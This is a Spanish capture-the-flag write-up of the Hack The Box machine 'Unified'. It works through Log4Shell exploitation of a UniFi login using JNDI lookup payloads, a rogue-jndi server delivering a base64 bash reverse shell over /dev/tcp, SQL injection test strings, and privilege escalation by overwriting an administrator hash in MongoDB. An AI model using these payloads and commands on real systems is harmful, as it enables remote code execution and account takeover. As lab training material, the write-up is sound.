






# Information Gathering

## Nmap

Comenzamos el reconocimiento ejecutando un escaneo de Nmap con scripts por defecto y pruebas de vulnerabilidades.

```java
❯ nmap -sV -sC -v 10.129.184.96
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-11-14 15:15 -05
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 15:15
Completed NSE at 15:15, 0.00s elapsed
Initiating NSE at 15:15
Completed NSE at 15:15, 0.00s elapsed
Initiating NSE at 15:15
Completed NSE at 15:15, 0.00s elapsed
Initiating Ping Scan at 15:15
Scanning 10.129.184.96 [4 ports]
Completed Ping Scan at 15:15, 0.13s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 15:15
Completed Parallel DNS resolution of 1 host. at 15:15, 0.01s elapsed
Initiating SYN Stealth Scan at 15:15
Scanning 10.129.184.96 [1000 ports]
Discovered open port 22/tcp on 10.129.184.96
Discovered open port 8080/tcp on 10.129.184.96
Increasing send delay for 10.129.184.96 from 0 to 5 due to 21 out of 69 dropped probes since last increase.
Discovered open port 8443/tcp on 10.129.184.96
Completed SYN Stealth Scan at 15:15, 7.87s elapsed (1000 total ports)
Initiating Service scan at 15:15
Scanning 3 services on 10.129.184.96
Completed Service scan at 15:16, 19.28s elapsed (3 services on 1 host)
NSE: Script scanning 10.129.184.96.
Initiating NSE at 15:16
Completed NSE at 15:16, 5.18s elapsed
Initiating NSE at 15:16
Completed NSE at 15:16, 0.92s elapsed
Initiating NSE at 15:16
Completed NSE at 15:16, 0.00s elapsed
Nmap scan report for 10.129.184.96
Host is up (0.10s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE    SERVICE         VERSION
22/tcp   open     ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
6789/tcp filtered ibm-db2-admin
8080/tcp open     http-proxy
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Did not follow redirect to https://10.129.184.96:8443/manage
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 431
|     Date: Fri, 14 Nov 2025 20:15:52 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 404 
|     Found</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 404 
|     Found</h1></body></html>
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 302 
|     Location: http://localhost:8080/manage
|     Content-Length: 0
|     Date: Fri, 14 Nov 2025 20:15:52 GMT
|     Connection: close
|   RTSPRequest: 
|     HTTP/1.1 400 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 435
|     Date: Fri, 14 Nov 2025 20:15:52 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400 
|     Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 
|     Request</h1></body></html>
|   Socks5: 
|     HTTP/1.1 400 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 435
|     Date: Fri, 14 Nov 2025 20:15:54 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400 
|     Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 
|_    Request</h1></body></html>
8443/tcp open     ssl/nagios-nsca Nagios NSCA
| ssl-cert: Subject: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Subject Alternative Name: DNS:UniFi
| Issuer: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-12-30T21:37:24
| Not valid after:  2024-04-03T21:37:24
| MD5:   e6be:8c03:5e12:6827:d1fe:612d:dc76:a919
|_SHA-1: 111b:aa11:9cca:4401:7cec:6e03:dc45:5cfe:65f6:d829
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-title: UniFi Network
|_Requested resource was /manage/account/login?redirect=%2Fmanage
...
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 15:16
Completed NSE at 15:16, 0.00s elapsed
Initiating NSE at 15:16
Completed NSE at 15:16, 0.00s elapsed
Initiating NSE at 15:16
Completed NSE at 15:16, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.61 seconds
           Raw packets sent: 1115 (49.036KB) | Rcvd: 1021 (40.852KB)
```

Del output anterior podemos ver que los puertos **22** (SSH), **8080** (HTTP) y **8443** (HTTPS) están abiertos. También se detectó el puerto **6789** como filtrado.

**Análisis de los servicios:**

- **Puerto 22 (SSH)**: OpenSSH 8.2p1 en Ubuntu, servicio estándar de SSH. El escaneo muestra las claves públicas del host (RSA, ECDSA y ED25519).

- **Puerto 8080 (HTTP)**: Servicio HTTP/Proxy que muestra comportamientos interesantes:
  - Redirige a `http://localhost:8080/manage` (redirección interna)
  - También intenta redirigir a `https://10.129.184.96:8443/manage`
  - Soporta los métodos HTTP: GET, HEAD, POST, OPTIONS
  - Nmap detecta que podría ser un proxy abierto (`http-open-proxy: Proxy might be redirecting requests`)
  - El servicio responde con diferentes códigos HTTP según el tipo de petición (302 para redirecciones, 404 para recursos no encontrados, 400 para peticiones inválidas)

- **Puerto 8443 (HTTPS)**: Aunque Nmap lo identifica inicialmente como "Nagios NSCA", el certificado SSL y el título HTTP revelan que en realidad es **UniFi Network** (sistema de gestión de redes de Ubiquiti):
  - **Certificado SSL**: `commonName=UniFi/organizationName=Ubiquiti Inc.`
  - **Título HTTP**: "UniFi Network"
  - **Recurso solicitado**: `/manage/account/login?redirect=%2Fmanage`
  - El certificado expiró el 2024-04-03, lo que podría indicar un sistema desactualizado
  - Soporta los métodos HTTP: GET, HEAD, POST, OPTIONS

- **Puerto 6789 (Filtrado)**: Aparece como "filtered", lo que significa que probablemente hay un firewall bloqueando el acceso. Nmap sugiere que podría ser "ibm-db2-admin", pero sin acceso no podemos confirmarlo.

**Nota sobre el fingerprint del servicio no reconocido:**

Al final del escaneo, Nmap muestra el mensaje "1 service unrecognized despite returning data" seguido de un fingerprint largo (las líneas que aparecen como `...`). Esto es completamente normal y significa que:

- El puerto 8080 está abierto y responde con datos
- Nmap no pudo identificar exactamente qué aplicación/servidor web está corriendo
- El fingerprint es la "huella digital" del servicio que Nmap capturó para poder identificarlo en el futuro y puede ser reportado a Nmap para ayudar a mejorar su base de datos de reconocimiento de servicios.



\ **Figure 1:** Resultado del escaneo Nmap

## Reconocimiento Web

Exploramos el servicio web en el puerto 8080, nos redirige a ```https://10.129.184.96:8443/manage```, tal como habia mostrado el escaneo nmap, nos muestra un mensaje de riesgo firefox, por el certificado, le damos aceptar riesgo. La página principal muestra un panel de login.



\ **Figure 2:** Página principal del servicio web

En la imagen vemos cosas que pueden ser interesantes, efectivamente es Unifi Network y nos dice la version 6.4.54, podriamos hacer una busqueda en internet de algun exploit.

Como de costumbre, intentamos algunas técnicas de inyección SQL básicas:

```bash
' or '1' =='1
' OR '1'='1';
' OR '1'='1'; drop table users;
admin'#
```

No funcionó, por ende podemos intentar seguir con la busqueda de algun exploit.

Encontramos que existe uno llamado ```Log4jUnifi```, ```Log4j``` es una biblioteca de logging para Java. Muchas aplicaciones Java la usan para registrar eventos, errores y mensajes de depuración, sin embargo se encontró una vulnerabilidad llamada ```Log4Shell``` que es una vulnerabilidad de ejecución remota de código en el servidor si la aplicación registra entradas controladas por el atacante, como en el caso de esta interfaz de login.

Lo que ocurre es que ```Log4j``` puede usar JNDI (Java Naming and Directory Interface) para buscar recursos remotos, con lookups como ```${jndi:ldap://atacante.ip.ip.ip:puerto/exploit}```, el ```ldap``` es el protocolo usado para consultar y modificar servicios de directorio, en un caso legitimo la empresa lo podría usar simplemente cómo un JNDI que hace consultas (lookups) a un servicio LDAP interno de la empresa.

El problema es que si la aplicacion registra una entrada que contiene estos lookups, ```Log4j``` los va a procesar y puede realizar una petición a un servidor que sea controlado por el atacante, entonces como atacantes podemos servir codigo malicioso que se ejecute en el servidor.

Para entender un poco mejor como vamos a mandar la petición maliciosa, vamos a hacer un login capturandolo con Burp suite, activamos el proxy en firefox y capturamos (puede que toque volver a recargar la pagina).



\ **Figure 3:** Captura en Burp Suite

Esto le damos click derecho y lo mandamos al Repeater, una vez ahi podemos modificar la validación que se hace. En la imagen vemos que hay cuatro parametros, de esos cuatro el que nos interesa es ```remember```, ```remember``` funciona porque la aplicación lo registra en logs y Log4j procesa ese valor. Si otro parámetro también se registra, también funcionaría, pero ```remember``` es el más común en este caso.

Lo modificamos segun la vulnerabilidad de ```Log4j```, en remember ponemos ```"${jndi:ldap://10.ip.ip.ip:1389/whatever}"``` y con esto deberiamos recibir un intento de conexion en el puerto que pusimos a escuchar.

```java
❯ nc -lvnp 1389
listening on [any] 1389 ...
connect to [10.ip.ip.ip] from (UNKNOWN) [10.129.184.96] XXXXX
```



\ **Figure 4:** Captura en Burp Suite

La conexión en netcat confirma la vulnerabilidad.

Aqui tambien podriamos haber usado tcpdump en lugar de netcat, si hubiera querido ver mas detalles del tráfico (IPs, puertos, datos) o analizar mas el protocolo LDAP y si quisiera capturar todo el trafico, en mi caso solo queria confirmar la conexion. Un ejemplo con tcpdump hubiera sido ```sudo tcpdump -i tun0 -n 'port 1389'```.

Ahora vamos a correr un servidor LDAP local con una aplicación Java llamada **rogue-jndi** que nos permite hacer eso. Para esto necesitamos tener Java, un JDK y Maven para compilar el código que hay en el repositorio.

1. Instalar el JDK de Java (yo ya lo tenía instalado)
2. Instalar Maven:

   ```bash
   sudo apt-get update
   sudo apt-get install maven
   ```

3. Clonar el repositorio [rogue-jndi](https://github.com/veracode-research/rogue-jndi). Es conveniente clonarlo en un directorio dedicado para herramientas de hacking, como `~/tools` o `~/exploits`, aunque también puede ir en `~/Downloads` si es temporal:

   ```bash
   cd ~/tools
   git clone https://github.com/veracode-research/rogue-jndi.git
   cd rogue-jndi
   ```

4. Compilar el proyecto con Maven:

   ```bash
   mvn package
   ```

Eso nos genera el archivo `.jar` dentro de la carpeta `target`. 

Ahora necesitamos configurar tres cosas (en tres terminales diferentes):

**Importante:** Rogue-jndi usa el puerto **1389** por defecto para el servidor LDAP, por lo que debemos usar un **puerto diferente** para netcat y la reverse shell.

1. **Preparar el listener para la reverse shell**: En una terminal, levantamos netcat en un puerto diferente (por ejemplo, 443) para recibir la conexión:

    ```bash
    nc -lvnp 443
    ```

2. **Generar el payload en base64**: En otra terminal, generamos el comando de reverse shell en base64. El payload debe apuntar al **mismo puerto donde está escuchando netcat** (443 en este ejemplo):

    ```bash
    echo 'bash -c "bash -i >&/dev/tcp/10.ip.ip.ip/443 0>&1"' | base64
    ```

   Esto nos deja algo como:

    ```java
    YmFzaCAtaSAiYmFza23fjedndcdkcndElQLVZQTj80NDMgMD4mMSI==
    ```

    (Este ejemplo está modificado para el writeup; el tuyo será diferente según tu IP).

3. **Ejecutar rogue-jndi**: Desde la terminal del repositorio clonado, ejecutamos rogue-jndi con el payload en base64. El servidor LDAP se levantará automáticamente en el puerto **1389** (por defecto):

   ```bash
   java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,TU_BASE64_AQUÍ}|{base64,-d}|{bash,-i}" --hostname "TU-IP-VPN"
   ```

   **Explicación del comando:**
   - `--command`: El comando que se ejecutará en el servidor vulnerable (la reverse shell decodificada desde base64)
   - `--hostname`: La IP donde rogue-jndi levantará el servidor LDAP (debe ser accesible desde el servidor vulnerable)
   - El formato `{echo,TU_BASE64_AQUÍ}|{base64,-d}|{bash,-i}` es la sintaxis que rogue-jndi usa para ejecutar comandos complejos: primero hace echo del base64, luego lo decodifica con base64, y finalmente lo ejecuta con bash

Ahora ya tenemos el servidor LDAP corriendo en el puerto 1389, con el código malicioso en base64 y las instrucciones de decodificarlo y que nos mande la reverse shell. Ahora solo tenemos que enviar el payload JNDI correcto a través de Burp Suite.

```"${jndi:ldap://10.ip.ip.ip:1389/o=tomcat}"```

```o=tomcat``` es simplemente un DN (Distinguished Name) válido de LDAP (organization=tomcat) que el servidor malicioso usa como punto de entrada.

Si el DN no sigue el formato correcto (como o=..., cn=..., ou=...), el lookup podría fallar porque el servidor LDAP no reconoce la ruta.

Una vez enviada la petición modificada, el servidor vulnerable procesará el lookup JNDI, se conectará a tu servidor LDAP en el puerto 1389, y rogue-jndi responderá con el comando malicioso que ejecutará la reverse shell hacia el puerto 443 donde está escuchando netcat.

Obtenemos conexion.

```java
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [10.ip.ip.ip] from (UNKNOWN) [10.129.184.96] XXXX
whoami
unifi
```

Podemos pasarnos a una shell interactiva con:

```script /dev/null -c bash```

Ahora navegamos hasta obtener la flag de usuario.

```bash
unifi@unified:/$ ls
ls
bin   dev  home  lib64	mnt  proc  run	srv  tmp    usr
boot  etc  lib	media	opt  root  sbin  sys  unifi  var
unifi@unified:/$ cd home
cd home
unifi@unified:/home$ ls
ls
michael
unifi@unified:/home$ cd michael
cd michael
unifi@unified:/home/michael$ ls
ls
user.txt
unifi@unified:/home/michael$ cat user.txt
cat user.txt
6ced1a6a89e666c0620cdb10262ba127
```



\ **Figure 5:** User flag

# Privilege Escalation

## Enumeración del Sistema

Comenzamos enumerando el sistema para identificar posibles vectores de escalada de privilegios. Ejecutamos `ps aux` para ver qué procesos están corriendo:

```python
unifi@unified:/home/michael$ ps aux 
ps aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
unifi          1  0.0  0.0   1080     4 ?        Ss   19:50   0:00 /sbin/docker-
unifi          7  0.0  0.1  18512  3144 ?        S    19:50   0:00 bash /usr/loc
unifi         17  0.7 27.4 3678148 559512 ?      Sl   19:50   1:26 java -Dunifi.
unifi         67  0.3  4.2 1103748 85588 ?       Sl   19:50   0:41 bin/mongod --
unifi       5297  0.0  0.1  18380  3144 ?        S    23:03   0:00 bash -c {echo
unifi       5301  0.0  0.1  18512  3292 ?        S    23:03   0:00 bash -i
unifi       5304  0.0  0.1  18380  3144 ?        S    23:03   0:00 bash
unifi       5361  0.0  0.1  19312  2308 ?        S    23:05   0:00 script /dev/n
unifi       5362  0.0  0.0   4632   864 pts/0    Ss   23:05   0:00 sh -c bash
unifi       5363  0.0  0.1  18512  3368 pts/0    S    23:05   0:00 bash
unifi       5611  0.0  0.1  34408  2864 pts/0    R+   23:14   0:00 ps aux
```

**Análisis de los procesos y cómo identificar el vector de ataque:**

Del output de `ps aux` podemos identificar varios procesos interesantes:

1. **`java -Dunifi...`** (PID 17): Proceso Java ejecutando UniFi Controller. Esto es esperado ya que estamos en un sistema UniFi.

2. **`bin/mongod --`** (PID 67): **Este es el proceso clave**. MongoDB está corriendo en el sistema.

**¿Por qué enfocarse en MongoDB?**

En un escenario real sin la ayuda de hack the box, los siguientes indicios te llevarían a investigar MongoDB:

1. **Contexto de la aplicación**: UniFi Controller usa MongoDB como base de datos para almacenar configuraciones, credenciales de usuarios, dispositivos, etc. Es un componente crítico del sistema, se conoce con una busqueda sencilla en internet.

2. **Metodología estándar de enumeración**: En privilege escalation, es común revisar:

   - Archivos de configuración (pueden tener credenciales hardcodeadas)
   - Bases de datos (pueden tener credenciales almacenadas)
   - Variables de entorno
   - Historial de comandos
   - Archivos con permisos incorrectos

3. **Acceso local a MongoDB**: Como estamos dentro del sistema, podemos intentar conectarnos a MongoDB localmente sin necesidad de autenticación de red.

## Explotación de MongoDB

Para obtener más información sobre la configuración de MongoDB, ejecutamos un grep enfocado en el proceso:

```java
unifi@unified:/home/michael$ ps aux | grep mongo
ps aux | grep mongo
unifi         67  0.3  4.2 1103748 85588 ?       Sl   19:50   0:43 bin/mongod --dbpath /usr/lib/unifi/data/db --port 27117 --unixSocketPrefix /usr/lib/unifi/run --logRotate reopen --logappend --logpath /usr/lib/unifi/logs/mongod.log --pidfilepath /usr/lib/unifi/run/mongod.pid --bind_ip 127.0.0.1
unifi       5875  0.0  0.0  11468  1004 pts/0    S+   23:24   0:00 grep mongo
```

Con esto vemos que mongo está corriendo en el puerto ```27117```.

Tambien con la busqueda nos podemos dar cuenta que el nombre de la base de datos que Unifi network usa por defecto es ```ace```.

Igual podemos ejecutar el siguiente comando para ver las bases de datos:

```mongo --port 27117 --eval "db.adminCommand('listDatabases');"```

Ahora intentamos obtener los usuarios de la base de datos por defecto:

```mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"```

Esto nos da un resultado bastante grande, pero el que nos interesa es el de administrador.

```java
unifi@unified:/home/michael$ mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
<17 ace --eval "db.admin.find().forEach(printjson);"
MongoDB shell version v3.6.3
connecting to: mongodb://127.0.0.1:27117/ace
MongoDB server version: 3.6.3
{
	"_id" : ObjectId("61ce278f46e0fb0012d47ee4"),
	"name" : "administrator",
	"email" : "administrator@unified.htb",
	"x_shadow" : "$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.",
	"time_created" : NumberLong(1640900495),
	"last_site_name" : "default",
	"ui_settings" : {
```

Tenemos un hash de la contraseña administrador, podriamos intentar crackear la contraseña con varias tecnicas, pero ya que tenemos acceso a la base de datos, podemos simplemente modificar este hash por alguno que nosotros generemos y ya sepamos cual contraseña es.

Para cambiar el hash tenemos que seguir el mismo formato, vemos que el hash contiene ```$6$```, con una pequeña investigación podemos saber que el prefijo para el hash de ```SHA512```, especialmente en implementaciones como ```sha512_crypt```, es ```$6$```.

Entonces abrimos una terminal y usamos:

```mkpasswd -m sha-512 pwned1234```

Esto nos daria el hash de pwned1234.

Ahora usamos el siguiente comando para hacer el cambio, usando el ObjectId del administrador y el hash generado:

```java
mongo --port 27117 ace --eval 'db.admin.update({"_id":ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$AAAAAAAAAAAAAAAAAAAAAAAAAAAA"}})'
```

Podemos volver a correr ```mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"``` para confirmar el cambio.

Con estas credenciales podemos volver a intentar entrar a la web. Ingresamos y vemos el dashboard administrativo.



\ **Figure 6:** Dashboard administrativo

Al explorar la configuración del dashboard administrativo, encontramos la contraseña de root y el acceso SSH habilitado. La visualizamos y la guardamos.

## Root Flag

Nos conectamos por SSH con las credenciales obtenidas:

```bash
ssh root@10.129.184.96
```

Una vez conectados como root, podemos acceder al directorio `/root` y leer la flag:

```java
root@unified:~# ls
root.txt
root@unified:~# cat root.txt 
e50bc93c75b634e4b272d2f771c33681
root@unified:~#
```

Obtuvimos la flag del root, y la escalada fue exitosa.

# Vulnerabilidades Encontradas

1. **Log4Shell (CVE-2021-44228)**: El sistema utiliza una versión vulnerable de Log4j que procesa lookups JNDI sin validación adecuada. El parámetro `remember` en las peticiones de login es registrado en logs y procesado por Log4j, permitiendo la ejecución remota de código mediante servidores LDAP maliciosos.

2. **MongoDB sin Autenticación**: La base de datos MongoDB está configurada sin autenticación, permitiendo acceso local sin credenciales. Esto permite la enumeración y modificación de datos, incluyendo credenciales de administrador.

3. **Almacenamiento Inseguro de Credenciales**: Las contraseñas de administrador se almacenan como hashes SHA-512 en la base de datos MongoDB sin protección adicional, permitiendo su modificación directa cuando se tiene acceso a la base de datos.

4. **Falta de Validación de Entradas en Logs**: La aplicación registra entradas controladas por el usuario (como el parámetro `remember`) sin sanitización, lo que permite la explotación de vulnerabilidades como Log4Shell cuando estas entradas son procesadas por bibliotecas vulnerables.

# Conclusion

La máquina **Unified** fue una excelente práctica que me mostró varios conceptos importantes de seguridad web, vulnerabilidades críticas en bibliotecas Java y escalada de privilegios mediante bases de datos.

**Puntos clave aprendidos:**

1. **Reconocimiento exhaustivo**: El escaneo Nmap reveló un sistema UniFi Network Controller, lo que me permitió identificar la versión y buscar vulnerabilidades conocidas. La identificación correcta del servicio (a pesar de que Nmap lo identificó inicialmente como Nagios) fue crucial para el siguiente paso.

2. **Vulnerabilidad Log4Shell (CVE-2021-44228)**: Esta máquina me enseñó sobre una de las vulnerabilidades más críticas de los últimos años. Aprendí cómo Log4j procesa lookups JNDI y cómo pueden ser explotados para ejecución remota de código. La confirmación de la vulnerabilidad mediante netcat fue un paso importante antes de la explotación completa.

3. **Explotación con rogue-jndi**: El uso de herramientas como rogue-jndi para crear un servidor LDAP malicioso me mostró cómo funcionan los exploits de Log4Shell en la práctica. Entender la diferencia entre el puerto LDAP (1389) y el puerto de reverse shell (443) fue importante para la configuración correcta.

4. **Privilege Escalation mediante MongoDB**: La escalada de privilegios mediante la modificación de hashes en MongoDB fue una técnica interesante. Aprendí que cuando tienes acceso a una base de datos, a veces es más eficiente modificar credenciales directamente que intentar crackear hashes, especialmente cuando puedes generar tus propios hashes con contraseñas conocidas.

